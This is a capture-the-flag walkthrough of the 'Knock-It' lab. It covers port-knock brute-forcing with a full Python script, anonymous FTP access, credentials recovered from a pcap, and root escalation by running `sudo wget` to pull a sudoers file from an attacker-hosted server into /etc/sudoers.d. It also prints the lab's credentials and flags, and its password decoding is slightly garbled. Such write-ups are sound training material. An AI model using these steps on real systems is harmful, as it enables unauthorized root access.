

# AXA/secdojo CTF - Knock-It


# **Lab Overview**

**Difficulty:** Medium

**Topics:** FTP, Information Leakage, Linux, PCAP Analysis

**Objective:** Use network packet analysis to discover hidden infrastructure, identify misconfigurations, gain system access, and escalate privileges.

---

## **Reconnaissance Phase**

### **Initial Port Scan**

```bash
nmap -sS -p- 172.16.237.165
```



### **Finding:**

 FTP port (21) appears filtered, suggesting port knocking is required.

### **Port Knocking Discovery**

Download port knocking brute forcing script via this url : https://github.com/eliemoutran/KnockIt/blob/master/knockit.py

```python
cat knockit.py                                                                                                                                          
#!/usr/bin/python3

import socket
import itertools
import sys
import time
import argparse

print("\n******************************************************")
print("*                                                    *")
print("*  _  __                     _     _____  _          *")
print("* | |/ /                    | |   |_   _|| |         *")
print("* | ' /  _ __    ___    ___ | | __  | |  | |_        *")
print("* |  <  | '_ \  / _ \  / __|| |/ /  | |  | __|       *")
print("* | . \ | | | || (_) || (__ |   <  _| |_ | |_        *")
print("* |_|\_\|_| |_| \___/  \___||_|\_\|_____| \__|       *")
print("*                                                    *")
print("*                                                    *")
print("* KnockIt v1.0                                       *")
print("* Coded by thebish0p                                 *")
print("* https://github.com/thebish0p/                      *")
print("******************************************************\n\n")

class Knockit(object):
    def __init__(self, args: list):
        self._parse_args(args)

    def _parse_args(self, args: list):
        parser = argparse.ArgumentParser()
        parser.add_argument('-d', '--delay', type=int, default=200,
                            help='Delay between each knock. Default is 200 ms.')
        parser.add_argument('-b', '--bruteforce', help='Try all possible combinations.', action='store_true')
        parser.add_argument('host', help='Hostname or IP address of the host.')
        parser.add_argument('ports', type=int, help='Port(s) to knock on', nargs='+')

        args = parser.parse_args(args)
        self.delay = args.delay / 1000
        self.ports = args.ports
        self.bruteforce = args.bruteforce
        self.host= args.host

    def knockit(self):
        self.ports = list(map(int, self.ports))
        if (self.bruteforce):
            print("[+] Knockit started attacking with all the possible combinations\n")
            print("******************************************************")            
            for port_list in itertools.permutations(self.ports):

                print("[+] Knocking with sequence: %s" % (port_list,))
                for port in port_list:
                    print("[+] Knocking on port %s:%s" % (self.host,port))
                    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    sock.settimeout(self.delay)
                    sock.connect_ex((self.host, port))
                    sock.close()

                print("******************************************************")

        else:
            for port in self.ports:
                print("[+] Knocking on port %s:%s" % (self.host,port))
                sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                sock.settimeout(self.delay)
                sock.connect_ex((self.host, port))
                sock.close()

if __name__ == '__main__':
    Knockit(sys.argv[1:]).knockit()

```

Using the provided `knockit.py` script to brute-force port sequences:


---

### **Result:**

 Successful port knocking sequence opens FTP port 21.


---

### **FTP Enumeration**


### **Anonymous FTP Access**

```bash
ftp 172.16.237.165
Username: anonymous
Password: [ENTER]
```

---

### **Discovery:**

Found `knock.pcap` file containing network traffic.

download the .pcap file 


---

### **PCAP Analysis**

Using strings  to analyze the captured traffic:


### **Credentials Found:**

- Username: `kabayla`
- Password: `K%40b%b%40b%ylA%21` → K@b@ylA!

---

### **Authenticated FTP Access**

```bash
ftp 172.16.237.165
Username: kabayla
Password: K@b@ylA!
```

### **Flag 1 Captured:** Downloaded `local.txt` containing first flag.

```bash
ftp> get local.txt
```


---

```bash
$ cat local.txt
```


**Proof Flag:** kit_double_group_34960-tyiqaozipd7pgya3wuvehh73a5j9v8nc

---

## **SSH Access and Enumeration**

### **SSH Login**

```bash
ssh kabayla@172.16.237.165
Password: K@b@ylA!
```


### **Finding:**

The user:kabayla needs root prevelege to access the /root.

### **Privilege Escalation Assessment**
lets check our authority

```python
$ sudo -l
Matching Defaults entries for kabayla on ip-172-16-237-165:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kabayla may run the following commands on ip-172-16-237-165:
    (root) NOPASSWD: /usr/bin/wget
```

This means we can run `wget` as root without a password. 

This is a great privilege escalation vector. 

---

## **Privilege Escalation Exploitation**

### METHOD: Add yourself into sudoers via wget

1. Host a file on your attacking machine (kali )
2. Use sudo wget to drop the file into `/etc/sudoers.d/`
3. You instantly become root

---

### Step **1: Prepare Payload on Attacker Machine**

Create sudoers file on **your machine**:

```bash
echo "kabayla ALL=(ALL) NOPASSWD:ALL" > sudo_patch
```

---

### Step 2 — Fix permissions (sudoers requires strict perms)

```bash
chmod 440 sudo_patch
```

---

### Step 3**: Host Payload**

Start a Python web server from the same directory:

```bash
python3 -m http.server 8080
```


---

### Step 4 - **Execute Exploit on Target**

On the victim:

 use sudo wget to drop your sudoers file

On the target machine **as kabayla**:

```bash
sudo wget http://172.16.239.50:8080/sudo_patch -O /etc/sudoers.d/kabayla
```


Replace `YOUR_IP` with your attack box, example:


---

### Step 5 - **Verify and Escalate**

 Now test root access

```bash
sudo -l  # Verify new permissions
sudo bash  # Gain root shell
```


The user **kabayla** can run **ALL commands without a password**:

```sql
(ALL) NOPASSWD: ALL
```

You should instantly get a **root shell**


---

### **Post-Exploitation**

```sql
cd /root
ls
cd snap && ls
cat proof.txt  # Capture root flag
```


### **Findings:**

**Flag** :  **`kit_double_group_34960-g3rjwaxmyjcqzrf9k36lx4e9luyuovx`**

---

## **Key Attack Vectors**

1. **Port Knocking Bypass:** Used permutation brute-forcing to discover correct knock sequence
2. **Protocol Analysis:** Extracted credentials from FTP traffic in PCAP file
3. **Credential Reuse:** Same credentials worked for both FTP and SSH services
4. **Sudo Misconfiguration:** `wget` with NOPASSWD allowed arbitrary file write as root
5. **Sudoers File Injection:** Wrote custom sudoers rule to grant full root access

---

## **Security Recommendations**

1. **Port Knocking:**
    - Implement more complex sequences with timing requirements
    - Use cryptographic knocking methods
2. **FTP Security:**
    - Disable anonymous FTP access
    - Use FTPS or SFTP instead of plain FTP
    - Monitor for credential leaks in network traffic
3. **Sudo Configuration:**
    - Avoid NOPASSWD for file download utilities
    - Restrict wget to specific directories
    - Implement sudoers file integrity checking
4. **Credential Management:**
    - Use different passwords for different services
    - Implement multi-factor authentication
    - Regularly rotate credentials

---

## **Tools Used**

- `nmap` - Port scanning
- `knockit.py` - Port knocking brute-force
- `Wireshark/tshark` - PCAP analysis
- `ftp` - File transfer
- `ssh` - Secure shell access
- `wget` - File download (exploitation)
- Python HTTP server - Payload hosting

---

**Flags Captured:**

1. User flag (`local.txt`) - From FTP directory
2. Root flag (`proof.txt`) - From `/root` directory

**Time to Complete:** ~30 minutes

**Difficulty Assessment:** Medium (requires understanding of multiple attack vectors)

**Key Learning:** Always check sudo permissions and look for file write capabilities in unexpected places like `wget`, `curl`, or `scp`.